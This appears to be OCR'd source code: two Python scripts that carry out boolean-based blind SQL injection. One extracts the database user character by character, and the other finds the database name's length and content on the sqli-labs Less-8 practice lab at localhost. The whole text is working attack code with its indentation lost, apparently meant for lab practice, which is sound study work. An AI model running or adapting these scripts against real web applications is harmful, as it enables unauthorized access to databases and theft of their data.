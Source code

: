 

```plain
import requests
urltest="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),1,1))=114%23" #验证页面，通常为正确页面
URL=requests.get(urltest)
for j in range(1,10):
for i in range(33,125):
i=str(i)
j=str(j)
url="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),"+j+",1))="+i+"%23" #注入用于比对的URL
#print url
url=requests.get(url)
if url.text==URL.text:
print chr(int(i))
---------------------------------------------------
import requests
def database_len():
for i in range(1,10):
url = '''http://127.0.0.1/sqli-labs-master/Less-8/index.php'''
payload = '''?id=1' and length(database())>%s''' %i
# print(url+payload+'%23')
r = requests.get(url+payload+'%23')
if 'You are in' in r.text:
print(i)

else:
#print('false')
print('database_length:',i)
break
database_len()

def database_name():
name = ''
for j in range(1,9):
for i in 'sqcwertyuioplkjhgfdazxvbnm':
url = "http://127.0.0.1/sqli-labs-master/Less-8/index.php?id=1' and substr(database(),%d,1)='%s'" %(j,i)
# print(url+'%23')
r = requests.get(url+'%23')
if 'You are in' in r.text:
name = name+i

print(name)

break
print('database_name:',name)



database_name()
Plain Text
```
